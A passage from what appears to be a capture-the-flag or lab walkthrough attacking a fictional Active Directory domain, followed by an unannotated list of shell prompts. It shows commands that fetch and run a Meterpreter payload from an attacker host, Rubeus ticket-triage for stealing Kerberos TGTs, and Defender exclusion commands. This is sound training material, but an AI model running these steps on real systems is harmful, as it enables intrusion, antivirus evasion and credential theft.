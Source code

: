 On the target machine, we can then download and run `msf.exe`. But as we're in a slightly weird logon session, it might be a good idea to create a new process in a "netonly" context to avoid any issues with the current logon session. Since I'll be using Rubeus going forward, I will upload it already and use it to create a new process in a "netonly" context:

```powershell
[factws.factories.mammamia.local]: PS C:\Windows\temp\attacker> wget http://13.37.13.37:1234/msf.exe -o msf.exe
[factws.factories.mammamia.local]: PS C:\Windows\temp\attacker> wget http://13.37.13.37:1234/Rubeus.exe -o rubeus.exe
[factws.factories.mammamia.local]: PS C:\Windows\temp\attacker> .\rubeus.exe createnetonly /program:"C:\Windows\Temp\attacker\msf.exe"
```

Back in Metasploit, we should see that we have a new session:

```bash
[*] Meterpreter session 1 opened (13.37.13.37:4444 -> 13.37.0.1:55714) at 2024-05-17 01:24:57 +0200

meterpreter > getuid
Server username: FACTORIES\attacker
```

#### Enumeration

Now that we have a Meterpreter session, we should upgrade to a full domain context. Since we're running with administrative privileges, we can use Rubeus to steal a Ticket Granting Ticket (TGT) from other users/accounts logged on to the machine. We can use the `triage` command to find TGTs like so:

```powershell
meterpreter > shell
Process 5104 created.
Channel 1 created.
Microsoft Windows [Version 10.0.20348.2402]
(c) Microsoft Corporation. All rights reserved.

C:\Windows\Temp\attacker>.\rubeus.exe triage /service:krbtgt

   ______        _
  (_____ \      | |
   _____) )_   _| |__  _____ _   _  ___
  |  __  /| | | |  _ \| ___ | | | |/___)
  | |  \ \| |_| | |_) ) ____| |_| |___ |
  |_|   |_|____/|____/|_____)____/(___/

  v2.3.2


Action: Triage Kerberos Tickets (All Users)

[*] Target service  : krbtgt
[*] Current LUID    : 0x4a6095

 --------------------------------------------------------------------------------------------------------------
 | LUID    | UserName                                | Service                         | EndTime              |
 --------------------------------------------------------------------------------------------------------------
 | 0x3e4   | factws$ @ FACTORIES.MAMMAMIA.LOCAL      | krbtgt/FACTORIES.MAMMAMIA.LOCAL | 5/17/2024 7:29:14 AM |
 | 0x64d33 | silvia.galli @ FACTORIES.MAMMAMIA.LOCAL | krbtgt/FACTORIES.MAMMAMIA.LOCAL | 5/17/2024 7:29:37 AM |
 | 0x3e7   | factws$ @ FACTORIES.MAMMAMIA.LOCAL      | krbtgt/FACTORIES.MAMMAMIA.LOCAL | 5/17/2024 7:28:56 AM |
 --------------------------------------------------------------------------------------------------------------
```

[factws.factories.mammamia.local]: PS C:\Users\Amministratore.FACTORIES\Documents> whoami
[factws.factories.mammamia.local]: PS C:\Users\Amministratore.FACTORIES\Documents> hostname
[factws.factories.mammamia.local]: PS C:\Users\Amministratore.FACTORIES\Documents> mkdir C:\Windows\Temp\attacker
[factws.factories.mammamia.local]: PS C:\Users\Amministratore.FACTORIES\Documents> Add-MpPreference -ExclusionPath C:\Windows\Temp\attacker
[factrodc.factories.mammamia.local]: PS C:\Users\silvia.galli.FACTORIES\Documents> whoami                                         
[factrodc.factories.mammamia.local]: PS C:\Users\silvia.galli.FACTORIES\Documents> mkdir C:\Windows\Temp\attacker
[factrodc.factories.mammamia.local]: PS C:\Users\silvia.galli.FACTORIES\Documents> Add-MpPreference -ExclusionPath C:\Windows\Temp\attacker
[factrodc.factories.mammamia.local]: PS C:\Users\silvia.galli.FACTORIES\Documents> cd C:\Windows\temp\attacker
[factrodc.factories.mammamia.local]: PS C:\Windows\temp\attacker> wget http://13.37.13.37:1234/msf.exe -o msf.exe
[factrodc.factories.mammamia.local]: PS C:\Windows\temp\attacker> .\msf.exe
[hqdc.mammamia.local]: PS C:\Users\amministratore.FACTORIES.MAMMAMIA.LOCAL\Documents> whoami                                         
[hqdc.mammamia.local]: PS C:\Users\amministratore.FACTORIES.MAMMAMIA.LOCAL\Documents> hostname              
[hqdc.mammamia.local]: PS C:\Users\amministratore.FACTORIES.MAMMAMIA.LOCAL\Documents> cd C:\Users\amministratore\desktop
[hqdc.mammamia.local]: PS C:\Users\amministratore\desktop> ls
[hqdc.mammamia.local]: PS C:\Users\amministratore\desktop> cat flag.txt                      